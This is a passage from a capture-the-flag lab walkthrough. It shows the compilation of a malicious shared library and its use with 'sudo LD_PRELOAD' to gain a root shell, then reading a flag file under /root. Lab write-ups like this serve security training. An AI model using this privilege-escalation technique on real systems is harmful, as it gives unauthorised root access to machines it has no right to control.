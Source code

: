Now let's compile the code to generate a shared library,shared.so:

Commands:

gcc -fPIC -shared -o shell.so shell.c -nostartfiles

file shell.so

![](../media/Blackbox%20lab%20INE_138.png)

Note: If you chose to go with the__attribute__((constructor))route instead of using the_init, which is obsolete (and dangerous) way of doing things, then while generating the shared library,-nostartfiles'' or-nostdlib'' flags must not be used!

Once the above commands have been executed, we would have successfully generated the malicious shared library.

Step 28: Performing privilege escalation attacks using theLD_PRELOADenvironment variable.

Now we have everything set up in order to carry out a privilege escalation attack. We will runlscommand withsudoand set theLD_PRELOADenvironment variable to the path of the malicious shared library we just compiled in the previous step:

Commands:

id

sudo LD_PRELOAD=/home/robert/shell.so ls

id

![](../media/Blackbox%20lab%20INE_139.png)

And as you can see, we have gained a root shell!

Step 29: Reading the flag.

Now let's read the last flag:

Commands:

ls /root

cat /root/FLAG3

![](../media/Blackbox%20lab%20INE_140.png)

FLAG: 560648FC63F090A8CF776326DC13FAC7

And this completes our objective of compromising all 3 machines and retrieving all the flags from them!


